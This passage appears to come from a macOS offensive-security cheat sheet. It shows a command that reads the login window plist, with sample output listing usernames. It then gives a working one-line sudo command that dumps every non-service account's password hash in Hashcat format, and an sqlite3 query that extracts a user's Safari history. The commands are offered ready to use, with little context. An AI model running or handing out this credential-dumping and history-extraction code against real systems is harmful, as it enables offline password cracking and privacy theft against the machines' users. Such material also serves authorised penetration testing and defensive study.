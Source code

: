 This command reads the contents of the login window preferences plist file. This can potentially expose information such as:

1. Automatic login settings
2. Display of usernames and other login screen options
3. Shutdown and restart privileges
4. Login hooks (scripts that run at login)

```sh
❯ sudo defaults read /Library/Preferences/com.apple.loginwindow

Password:
{
    AccountInfo =     {
        FirstLogins =         {
            rosesec = 1;
        };
        MaximumUsers = 1;
        OnConsole =         {
        };
    };
    GuestEnabled = 0;
    Hide500Users = 1;
    OptimizerLastRunForBuild = 48630688;
    OptimizerLastRunForSystem = 235274496;
    RecentUsers =     (
        rosesec,
        "doctor.pepper"
    );
    UseVoiceOverLegacyMigrated = 1;
    lastLoginPanic = "746632045.290429";
    lastUser = loggedIn;
    lastUserName = rosie.odonnell;
}
```

### Passwords

The following one-liner which will dump credentials of all non-service accounts in Hashcat format `-m 7100` (`macOS PBKDF2-SHA512`):

```sh
sudo bash -c 'for i in $(find /var/db/dslocal/nodes/Default/users -type f -regex "[^_]*"); do plutil -extract name.0 raw $i | awk "{printf \$0\":\$ml\$\"}"; for j in {iterations,salt,entropy}; do l=$(k=$(plutil -extract ShadowHashData.0 raw $i) && base64 -d <<< $k | plutil -extract SALTED-SHA512-PBKDF2.$j raw -); if [[ $j == iterations ]]; then echo -n $l; else base64 -d <<< $l | xxd -p -c 0 | awk "{printf \"$\"\$0}"; fi; done; echo ""; done'
```

### Safari History

Retrieve Safari history for user:

```sh
sqlite3 ~/Library/Safari/History.db "select datetime(history_visits.visit_time + 978307200, 'unixepoch') as last_visited, history_items.url from history_visits, history_items where history_visits.history_item=history_items.id order by last_visited;"
```
